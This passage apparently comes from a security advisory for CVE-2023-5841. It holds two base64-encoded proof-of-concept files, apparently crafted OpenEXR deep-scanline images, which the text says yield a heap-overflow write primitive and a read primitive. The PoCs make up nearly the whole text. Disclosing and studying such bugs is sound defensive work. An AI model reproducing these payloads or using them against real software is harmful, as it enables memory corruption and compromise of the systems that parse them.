 [expand]

Write primitive from heap overflow:

```
di8xAQIAAABjb21wcmVzc2lvbgBjb21wcmVzc2lvbgABAAAAAHR5cGUAc3RyaW5nAA0AAABkZWVw
c2NhbmxpbmUAdmVyc2lvbgBpbnQABAAAAAEAAABjaGFubmVscwBjaGxpc3QAJQAAAEEAAAAAAAAA
AAABAAAAAQAAAAAArq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq4AAAAAAAEAAAAAAAAAAQAAAAAAAAAA/wAAAAAAAAAAADoAAAA6AAAA////AP//
/wD///8A////AP///wD///8A////AP///wD///8A////AP///wD///8A////AP///wD///8A////
AP///wD///8A////AP///wD///8A////AP///wD///8A////AP///wD///8A////AP///wD///8A
////AP///wD///8A////AP///wD///8A////AP///wD///8A////AP///wD///8A////AP///wD/
//8A////AP///wD///8A////AP///wD///8A////AP///wD///8A////AP///wD///8A////AP//
/wD///8Arq4AAK6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6u
rq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq6urq4=
```

Alternatively, a read primitive can be achieved leveraging the same bug with
the following PoC:

```
di8xAQIAAABnAAARASYmJiYmJiYmJian5EBnr2S1zEBAQEBAQEBAzn0nDH6dyiPFuFBpSulKZm5u
bm5ubgD/JiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmfv8mJtkmJiYmJiYmJiYmJiYmJiZ2ZXJz
aW9uMV4CMTLU1NQAAAAAAF8AALuAwg0DvhAIrqqbhONsH////////wAAjlVUgD4AJiYmJiYmJiYm
JiYmJgAAY2hyY29tcHJlc3Npb24AY29tcHJlc3Npb24AAQAAAAD/AAAmJiZubm5ubm5ubm5ubm5u
bm70qM084T4YPdT8YuIUBldXbmRvd0NlbnRlcgB2MmYACAAAAHYyZgFibGVlaWVlAAB0eXBlAHN0
cmluZwBfAAAAZGVlcHNjYW5saW5lAHIAf///AW9hdG1hdGljCXRpZXMwAAAB3gBjaABjaGxpc3QA
HAAAABAAAAAB/wAAABAAaQAAAQAA/mcAAP5nAAByAH///wFvYXRtYXQAAAABaWMJdGllczAAAAEA
Y2gAYwAAAP90AAAACABra2trazsra2tra2tr5Zcp6ib09XPqBi0xMZc5Wv9mbG9hdP////////8+
65He/kO+tTgXdw9VKwUAAADyAAAAfFUj49bgAAAA5eXl5eXla2UTBAAAAAAAAOXl5f//////////
5XYvMQHl5eXl5QH/dGltLzEB5eXl5eUB/3RpbWVjb3ljb2Rl5eXl5eXl///////////ldi8xAeXl
5eXlAf90aW1lY29kZf//AQBmbG9hdHZlY3RvcgAAAAAA//EAHWlldz4+Pj4+AOXl5eXl5eXl5eXl
5eVkaXNwbGF5V2luAABjaGFubmVscwBjaGxpc3QAPAAAABAAAAAAAAAAKgABAAAAAQAAAABkZWxp
AgAAAGNobGlzdHJlqRAAAAAAAABjaGxpc3RyZXNzaW9pdG9yAXcAAAAAAGNo/wAACE1NTXYyZE1N
TU30sAAAAAAAAGtleWNvZGXl5eXl5eX//////3L/AQD/AAAAnW94MTJpAAB0eXBlAAB0aWNpdGll
c+Xl5eXl5eXl5XYyZnBsYXlXaXlwZQBtMzNkAWV0aXKU4VQAAAAAAAAdAAAAaXKUbGWSNGF0M2Rw
cmVjaHKUbGVtNDRkAP8AAACdb3gxMmkCAAB5cGUAbTMzZAFldGlylGtlbTQ0ZH8AHQAAAGlylGxl
djNpdDNkcHJlY2hyb21hb3gxMmkAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAABGgAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
yyAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAZGQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAABAAAAAAAANAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAc3RyaQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA2AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAypAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

[CVE-2023-5841]: https://takeonme.org/cves/CVE-2023-5841.html
[disclosure policy]: https://takeonme.org/cve.html
[AHA!]: https://takeonme.org/